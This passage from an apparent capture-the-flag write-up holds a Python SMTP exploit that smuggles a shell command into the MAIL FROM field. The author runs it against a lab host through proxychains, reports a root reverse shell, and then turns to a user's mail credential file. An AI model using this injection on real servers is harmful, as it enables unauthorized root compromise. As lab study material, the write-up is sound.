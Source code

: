 ```python
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
    data = s.recv(1024)
    print('Received', repr(data))
    time.sleep(1)
    print('sending')
    s.send(b"helo test.com\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
    time.sleep(1)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"DATA\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(payload)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"QUIT\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
print("done")
s.close()
```

after that I ran the exploit

```
proxychains python3 smtp_exploit.py 10.241.251.113
```

And we got the reverse shell as root

## User

Reading a file in /home/j.nakazawa/.msmtprc
